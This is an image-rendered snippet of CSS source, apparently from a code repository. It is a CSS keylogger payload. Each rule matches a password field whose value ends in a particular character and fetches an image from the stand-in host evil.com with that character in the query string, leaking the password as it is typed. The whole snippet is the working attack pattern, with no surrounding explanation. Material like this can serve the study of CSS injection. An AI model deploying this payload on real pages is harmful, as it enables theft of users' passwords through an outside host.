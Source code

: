 ```css
#password[value$=":"] {
  background-image: url("http://evil.com/?c=%3A");
}
#password[value$=";"] {
  background-image: url("http://evil.com/?c=%3B");
}
#password[value$="<"] {
  background-image: url("http://evil.com/?c=%3C");
}
#password[value$="="] {
  background-image: url("http://evil.com/?c=%3D");
}
#password[value$=">"] {
  background-image: url("http://evil.com/?c=%3E");
}
#password[value$="?"] {
  background-image: url("http://evil.com/?c=%3F");
}
#password[value$="@"] {
  background-image: url("http://evil.com/?c=%40");
}
#password[value$="A"] {
  background-image: url("http://evil.com/?c=A");
}
#password[value$="B"] {
  background-image: url("http://evil.com/?c=B");
}
#password[value$="C"] {
  background-image: url("http://evil.com/?c=C");
}
#password[value$="D"] {
  background-image: url("http://evil.com/?c=D");
}
#password[value$="E"] {
  background-image: url("http://evil.com/?c=E");
}
#password[value$="F"] {
  background-image: url("http://evil.com/?c=F");
}
#password[value$="G"] {
  background-image: url("http://evil.com/?c=G");
}
#password[value$="H"] {
  background-image: url("http://evil.com/?c=H");
}
#password[value$="I"] {
  background-image: url("http://evil.com/?c=I");
}
#password[value$="J"] {
  background-image: url("http://evil.com/?c=J");
}
#password[value$="K"] {
  background-image: url("http://evil.com/?c=K");
}
#password[value$="L"] {
  background-image: url("http://evil.com/?c=L");
}
#password[value$="M"] {
  background-image: url("http://evil.com/?c=M");
}
#password[value$="N"] {
  background-image: url("http://evil.com/?c=N");
}
```